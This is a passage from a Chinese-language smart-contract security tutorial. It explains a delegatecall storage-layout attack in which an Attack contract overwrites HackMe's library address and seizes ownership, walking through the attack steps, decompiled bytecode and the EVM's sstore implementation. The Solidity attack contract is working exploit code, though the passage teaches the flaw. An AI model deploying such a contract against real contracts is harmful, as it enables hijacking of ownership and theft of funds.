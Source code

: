 ```solidity
    // Make sure the storage layout is the same as HackMe
    // This will allow us to correctly update the state variables
    address public lib;
    address public owner;
    uint public someNumber;

    HackMe public hackMe;

    constructor(HackMe _hackMe) {
        hackMe = HackMe(_hackMe);
    }

    function attack() public {
        // override address of lib
        hackMe.doSomething(uint(uint160(address(this))));
        // pass any number as input, the function doSomething() below will
        // be called
        hackMe.doSomething(1);
    }

    // function signature must match HackMe.doSomething()
    function doSomething(uint _num) public {
        owner = msg.sender;
    }
}
```

上面例子中，`HackMe` 是被攻击合约；`Attack` 是发起攻击的合约。

**攻击步骤**：  
1. Alice 部署 `Lib` 合约，然后使用 `Lib` 合约的地址部署 `HackMe` 合约
2. Eve 使用 `HackMe` 合约的地址部署 `Attack` 合约
3. Eve 调用 `Attack.attack`
4. `HackMe` 的 owner 变成了 `Attack` 合约（原本的 owner 是 Alice）

**关键知识点**：
1. 使用 `delegatecall` 时，上下文信息是调用者的上下文信息，包括合约状态变量、`msg.sender`。

**攻击解释**：  
在调用 `Attack.attack` 时，首先调用了 `HackMe.doSomething` ；而在 `HackMe.doSomething` 中，则使用 `delegatecall` 调用 `Lib.doSomething` ，传入的参数则是 `Attack` 合约的地址。虽然从源代码上看，`Lib.doSomething` 更新的是 `Lib.someNumber` ，但实际上它更新的只不过是「当前合约字段中的第 1 个字段」而已。以具体的 opcode 代码比较烦锁，我们就只看反编译代码吧，下是 `Lib.doSomething` 的反编译代码：
```
function func_0063(var arg0) {
        storage[0x00] = arg0;
    }
```
虽然是反编译代码，但我们知道，这里存储 `storage` 靠的是 `sstore` 指令，这个指令的解释代码如下：
```go
func opSstore(pc *uint64, interpreter *EVMInterpreter, scope *ScopeContext) ([]byte, error) {
	if interpreter.readOnly {
		return nil, ErrWriteProtection
	}
	loc := scope.Stack.pop()
	val := scope.Stack.pop()
	interpreter.evm.StateDB.SetState(scope.Contract.Address(),
		loc.Bytes32(), val.Bytes32())
	return nil, nil
}
```
在我们的例子中，`loc` 变量即为 0 ，`val` 变量即为 `arg0` 。显然这里的关键是 `scope.Contract.Address()` 的返回值，它的代码如下：
```go
func (c *Contract) Address() common.Address {
	return c.self.Address()
}
```